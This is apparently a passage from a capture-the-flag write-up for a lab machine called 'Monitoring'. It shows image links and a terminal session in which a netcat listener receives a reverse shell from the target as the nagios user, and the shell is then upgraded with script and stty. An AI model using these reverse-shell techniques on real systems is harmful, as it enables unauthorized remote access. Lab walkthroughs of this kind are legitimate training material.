 ![](/assets/obsidian/517a85273647da7ad46e353f0d3244fc.png)

![](/assets/obsidian/c40080704d322d4df772dd1213f993ed.png)

```bash
┌──(bravosec㉿fsociety)-[~/Offsec/pg/play/Monitoring]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [192.168.45.221] from (UNKNOWN) [192.168.239.136] 46438
bash: cannot set terminal process group (19435): Inappropriate ioctl for device
bash: no job control in this shell
nagios@ubuntu:/var/spool/cron$ /usr/bin/script -qc /bin/bash /dev/null
/usr/bin/script -qc /bin/bash /dev/null
nagios@ubuntu:/var/spool/cron$ ^Z
zsh: suspended  nc -lvnp 1111

┌──(bravosec㉿fsociety)-[~/Offsec/pg/play/Monitoring]
└─$ stty raw -echo;fg
```